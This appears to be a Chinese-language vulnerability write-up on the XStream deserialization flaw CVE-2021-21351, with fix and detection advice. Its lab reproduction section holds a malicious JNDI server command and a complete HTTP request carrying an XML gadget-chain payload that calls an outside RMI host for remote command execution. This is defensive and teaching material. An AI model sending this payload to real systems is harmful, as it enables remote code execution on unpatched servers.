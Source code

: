 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：XStream 反序列化命令执行漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。XStream是自由软件，可以在BSD许可证的许可下分发。它是一种OXMapping 技术，是用来处理XML文件序列化的框架在将javaBean序列化，或将XML文件反序列化的时候，不需要其它辅助类和映射文件，使得XML序列化不再繁琐。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

---

### 漏洞危害

该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码。

---

### 影响范围

Xstream<=1.4.15

---

## 漏洞原理



------

## 漏洞利用

### 靶机环境

vulhub/xstream/CVE-2021-21351

---

### 利用方式

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 10.182.234.169
```

![02](./img/xstream_CVE-2021-21351/02.png)

使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: 192.168.1.189:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://10.182.234.169:1099/schsit</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

**PS** 在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

发送poc后能够看到靶机来请求了恶意的rmi

![03](./img/xstream_CVE-2021-21351/03.png)

进入目标容器内，可见``touch /tmp/success``已成功执行：

![01](./img/xstream_CVE-2021-21351/01.png)

---


## 威胁防护建议

### 用户处置建议

1. 配置XStream的安全框架为允许的类型使用白名单

2. 注册自己的转换器，以防止解组当前已知的Java运行时关键类型

3. 升级XStream到最新版本

---

### 安全产品检测建议

检测`javax.naming.ldap.Rdn_-RdnEntry`，`com.sun.org.apache.xpath.internal.objects.XRTreeFrag`, `com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM`, `com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces`



